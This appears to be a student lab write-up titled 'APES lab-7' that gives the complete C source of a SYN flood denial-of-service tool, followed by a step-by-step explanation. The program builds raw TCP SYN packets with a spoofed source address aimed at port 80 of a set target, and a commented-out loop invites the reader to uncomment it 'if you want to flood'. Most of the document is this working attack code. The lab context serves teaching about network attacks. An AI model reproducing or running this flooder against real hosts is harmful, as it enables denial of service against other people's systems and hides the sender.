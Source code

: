 # APES lab-7

---

```jsx
/*
    Syn Flood DOS with LINUX sockets
*/
#include<stdio.h>
#include<string.h> //memset
#include<sys/socket.h>
#include<stdlib.h> //for exit(0);
#include<errno.h> //For errno - the error number
#include<netinet/tcp.h>   //Provides declarations for tcp header
#include<netinet/ip.h>    //Provides declarations for ip header
 
struct pseudo_header    //needed for checksum calculation
{
    unsigned int source_address;
    unsigned int dest_address;
    unsigned char placeholder;
    unsigned char protocol;
    unsigned short tcp_length;
     
    struct tcphdr tcp;
};
 
unsigned short csum(unsigned short *ptr,int nbytes) {
    register long sum;
    unsigned short oddbyte;
    register short answer;
 
    sum=0;
    while(nbytes>1) {
        sum+=*ptr++;
        nbytes-=2;
    }
    if(nbytes==1) {
        oddbyte=0;
        *((u_char*)&oddbyte)=*(u_char*)ptr;
        sum+=oddbyte;
    }
 
    sum = (sum>>16)+(sum & 0xffff);
    sum = sum + (sum>>16);
    answer=(short)~sum;
     
    return(answer);
}
 
int main (void)
{
    //Create a raw socket
    int s = socket (PF_INET, SOCK_RAW, IPPROTO_TCP);
    //Datagram to represent the packet
    char datagram[4096] , source_ip[32];
    //IP header
    struct iphdr *iph = (struct iphdr *) datagram;
    //TCP header
    struct tcphdr *tcph = (struct tcphdr *) (datagram + sizeof (struct ip));
    struct sockaddr_in sin;
    struct pseudo_header psh;
     
    strcpy(source_ip , "192.168.1.2");
   
    sin.sin_family = AF_INET;
    sin.sin_port = htons(80);
    sin.sin_addr.s_addr = inet_addr ("1.2.3.4");
     
    memset (datagram, 0, 4096); /* zero out the buffer */
     
    //Fill in the IP Header
    iph->ihl = 5;
    iph->version = 4;
    iph->tos = 0;
    iph->tot_len = sizeof (struct ip) + sizeof (struct tcphdr);
    iph->id = htons(54321);  //Id of this packet
    iph->frag_off = 0;
    iph->ttl = 255;
    iph->protocol = IPPROTO_TCP;
    iph->check = 0;      //Set to 0 before calculating checksum
    iph->saddr = inet_addr ( source_ip );    //Spoof the source ip address
    iph->daddr = sin.sin_addr.s_addr;
     
    iph->check = csum ((unsigned short *) datagram, iph->tot_len >> 1);
     
    //TCP Header
    tcph->source = htons (1234);
    tcph->dest = htons (80);
    tcph->seq = 0;
    tcph->ack_seq = 0;
    tcph->doff = 5;      /* first and only tcp segment */
    tcph->fin=0;
    tcph->syn=1;
    tcph->rst=0;
    tcph->psh=0;
    tcph->ack=0;
    tcph->urg=0;
    tcph->window = htons (5840); /* maximum allowed window size */
    tcph->check = 0;/* if you set a checksum to zero, your kernel's IP stack
                should fill in the correct checksum during transmission */
    tcph->urg_ptr = 0;
    //Now the IP checksum
     
    psh.source_address = inet_addr( source_ip );
    psh.dest_address = sin.sin_addr.s_addr;
    psh.placeholder = 0;
    psh.protocol = IPPROTO_TCP;
    psh.tcp_length = htons(20);
     
    memcpy(&psh.tcp , tcph , sizeof (struct tcphdr));
     
    tcph->check = csum( (unsigned short*) &psh , sizeof (struct pseudo_header));
     
    //IP_HDRINCL to tell the kernel that headers are included in the packet
    int one = 1;
    const int *val = &one;
    if (setsockopt (s, IPPROTO_IP, IP_HDRINCL, val, sizeof (one)) < 0)
    {
        printf ("Error setting IP_HDRINCL. Error number : %d . Error message : %s \n" , errno , strerror(errno));
        exit(0);
    }
     
    //Uncommend the loop if you want to flood :)
    //while (1)
    //{
        //Send the packet
        if (sendto (s,      /* our socket */
                    datagram,   /* the buffer containing headers and data */
                    iph->tot_len,    /* total length of our datagram */
                    0,      /* routing flags, normally always 0 */
                    (struct sockaddr *) &sin,   /* socket addr, just like in */
                    sizeof (sin)) < 0)       /* a normal send() */
        {
            printf ("error\n");
        }
        //Data send successfully
        else
        {
            printf ("Packet Send \n");
        }
    //}
     
    return 0;
}
```

Here’s the explanation with relevant code snippets:

1. **Create Raw Socket**
    
    A raw socket is created to manually craft packets.
    
    ```c
    int s = socket (PF_INET, SOCK_RAW, IPPROTO_TCP);
    
    ```
    
2. **Prepare Packet and Headers**
    
    Allocate memory for the packet and initialize IP/TCP headers.
    
    ```c
    char datagram[4096];
    struct iphdr *iph = (struct iphdr *) datagram;
    struct tcphdr *tcph = (struct tcphdr *) (datagram + sizeof(struct ip));
    
    ```
    
3. **Set Source and Destination**
    
    Define the source IP and target server.
    
    ```c
    strcpy(source_ip, "192.168.1.2");
    sin.sin_family = AF_INET;
    sin.sin_port = htons(80);
    sin.sin_addr.s_addr = inet_addr("1.2.3.4");
    
    ```
    
4. **Craft IP Header**
    
    Populate the IP header with necessary fields.
    
    ```c
    iph->ihl = 5;
    iph->version = 4;
    iph->tot_len = sizeof(struct iphdr) + sizeof(struct tcphdr);
    iph->saddr = inet_addr(source_ip);
    iph->daddr = sin.sin_addr.s_addr;
    iph->check = csum((unsigned short *)datagram, iph->tot_len >> 1);
    
    ```
    
5. **Craft TCP Header**
    
    Configure the TCP header with SYN flag enabled.
    
    ```c
    tcph->source = htons(1234);
    tcph->dest = htons(80);
    tcph->doff = 5;
    tcph->syn = 1;  // SYN flag
    tcph->check = 0;  // Kernel will fill checksum
    
    ```
    
6. **Checksum Calculation**
    
    Use a pseudo-header for checksum calculation.
    
    ```c
    struct pseudo_header psh;
    psh.source_address = inet_addr(source_ip);
    psh.dest_address = sin.sin_addr.s_addr;
    memcpy(&psh.tcp, tcph, sizeof(struct tcphdr));
    tcph->check = csum((unsigned short*)&psh, sizeof(struct pseudo_header));
    
    ```
    
7. **Send Packet**
    
    Send the crafted packet using `sendto`.
    
    ```c
    if (sendto(s, datagram, iph->tot_len, 0, (struct sockaddr *)&sin, sizeof(sin)) < 0) {
        printf("error\n");
    } else {
        printf("Packet Send\n");
    }
    
    ```
    

**Summary**: The code creates a custom packet with spoofed headers and sends it to the target, flooding it with SYN requests.

## Screen shot

![image.png](APES%20lab-7%20176b7a782d57801b9a8ad678fa448004/image.png)